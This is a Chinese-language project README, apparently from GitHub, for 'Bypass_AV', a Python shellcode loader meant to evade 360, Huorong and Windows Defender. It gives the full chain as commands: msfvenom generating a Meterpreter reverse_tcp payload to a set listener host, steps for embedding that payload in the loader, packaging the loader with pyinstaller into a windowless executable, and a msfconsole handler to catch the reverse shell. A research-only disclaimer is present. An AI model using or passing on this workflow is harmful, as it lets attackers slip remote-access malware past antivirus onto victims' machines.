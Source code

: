 # Bypass_AV
Bypass_AV msf免杀，ShellCode免杀加载器 ，免杀shellcode执行程序 ，360&amp;火绒&amp;Window Defender

## 声明

#### 该项目仅供网络安全研究使用，禁止使用该项目进行违法操作，否则自行承担后果，请各位遵守《中华人民共和国网络安全法》！！！


代码未经过大量测试，如发现问题请提交 issue。

## 环境
2022年5月8日 测试可以免杀国内杀软 火绒&360及Window Defender

Windows 10 64位   360&火绒&Window Defender

Windows 7 64位  或以上操作系统应该都没问题（没有测试）


编译

Python  3.8.6

pyinstaller 4.7

## 使用msfvenom

生成ShellCode

```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.1.100 lport=8080 --encrypt base64 -f c
```

注意：ShellCode 需要是64位的

![image-20220508135022087](images/%E5%85%8D%E6%9D%80/image-20220508135022087.png)

## 加载器

将生成的ShellCode 填至 Bypass_AV.py 里的 ShellCode = '''**ShellCode**''' 处

注意：保留原始ShellCode 里的双引号 "

示例：

![](images/%E5%85%8D%E6%9D%80/image-20220508134821387.png)

最终格式：

![](images/%E5%85%8D%E6%9D%80/image-20220508135655093.png)



## 打包成可执行程序

```
pip install pyinstaller 
pyinstaller -F -w Bypss_AV.py
```

生成Bypass_AV.exe在dist目录中



## 运行监听

```
msfconsole
msf6 > use exploit/multi/handler 
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 0.0.0.0
msf6 exploit(multi/handler) > set lport 8080
msf6 exploit(multi/handler) > run
```



### Bypass_360

https://user-images.githubusercontent.com/34683107/167286045-fa57c2d8-2988-42c3-ae46-c39e35dde9af.mp4


### Bypass_火绒


https://user-images.githubusercontent.com/34683107/167286060-1085a75a-3b7e-4cd7-a6f7-ac4c28fe3e33.mp4


### Bypass_Window Defender


https://user-images.githubusercontent.com/34683107/167286066-c7324967-2f46-48ed-aaf4-4a219997ba55.mp4



感谢阅读

![](images/%E5%85%8D%E6%9D%80/Axx8.jpg)

